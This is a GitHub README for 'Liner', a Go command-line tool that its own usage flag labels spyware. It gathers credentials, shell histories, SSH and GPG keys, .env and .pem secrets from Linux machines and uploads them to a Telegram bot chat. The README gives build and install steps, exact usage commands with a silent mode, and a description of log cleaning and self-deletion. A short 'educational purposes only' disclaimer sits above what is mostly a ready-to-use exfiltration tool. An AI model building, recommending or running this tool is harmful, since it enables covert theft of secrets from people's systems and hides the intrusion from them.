 # Liner - Data Collection & Telegram Transfer Tool

**Liner** is a command-line tool for collecting sensitive data (credentials, session files, private tokens, etc.) from a Linux system and transferring them to a specified Telegram chat via a bot.  
It's written in Go and supports silent execution, self-deletion, and concurrent file upload.

> ⚠️ **Warning:** This tool is intended **only for educational and ethical purposes**. Any unauthorized or malicious use is strictly prohibited and may violate local laws.

## 🔧 Features

- Dump credentials, passwords, session files, or all sensitive data.
- Generate tree structure of file system and home directories.
- Compress and transfer collected data to Telegram chat via bot API.
- Support for silent mode (`--silent`) and binary self-deletion.
- Concurrent upload to improve speed.

---

## 📦 Requirements

Install required packages:

```bash
sudo apt install zip coreutils tree
```

Also required:

- A **Telegram bot token** ([@BotFather](https://t.me/BotFather))
- A **Telegram chat ID** (user or group)

---

## 🚀 Installation

```bash
git clone https://github.com/Nowafen/liner.git
cd liner
go build -v -o liner ./cmd

mv liner /usr/bin
chmod +x /usr/bin/liner

```

Verify installation:

```bash
liner --version
# Output: Liner version: x.x
```

---

## 🛠️ Usage

Basic syntax:

```bash
liner --mode Spyware --dump <TYPE> --token <TOKEN> --id <CHAT_ID> [options]
```

### Required Flags

- `--mode Spyware` (only mode supported for now)
- `--dump`:  
  - `Credentials`: .git-credentials, keyrings  
  - `Password`: .bash_history, .zsh_history  
  - `Session`: .ssh, .gnupg  
  - `privateDATA`: *.env, *.pem, secrets  
  - `all`: Everything above
- `--token`: Your Telegram bot token
- `--id`: Telegram chat ID

### Optional Flags

- `--silent`: Suppress all output
- `--version`: Show current version
- `--update`: Check for new version
- `--help`: Show help message

---

## 💡 Examples

```bash
sudo liner --mode Spyware --dump Password --token <BOT_TOKEN> --id <CHAT_ID>
```

```bash
sudo liner --mode Spyware --dump all --token <BOT_TOKEN> --id <CHAT_ID> --silent
```

---

## 🧠 How It Works

1. **OS Check:** Validates if Linux is being used.
2. **File Collection:** Gathers files per `--dump` mode.
3. **Tree Generation:** Uses `tree` to list directories.
4. **Compression:** Packs data into `liner_data.zip`.
   - Splits to 25MB parts if >48MB.
5. **Telegram Upload:** Sends intro message, structure files, then zipped data.
6. **Cleanup:** Deletes temp files, cleans logs, self-deletes binary.

---

## ⚙️ Troubleshooting

- `liner` not found?  
  Make sure `~/go/bin` is in `$PATH`.

```bash
echo $PATH
```

- Telegram upload fails with `429 Too Many Requests` or timeout?  
  Check your connection or reduce concurrency in `core/telegram.go`.

- No files sent?  
  Ensure correct `--dump` and permissions (`sudo` if needed).

- Recombine split files on receiving side:

```bash
cat part_* > liner_data.zip
unzip liner_data.zip
```

---

## 🤝 Contributing

Pull requests and issues are welcome. Let’s improve this project together.

## 📜 License

[MIT License](./LICENSE)

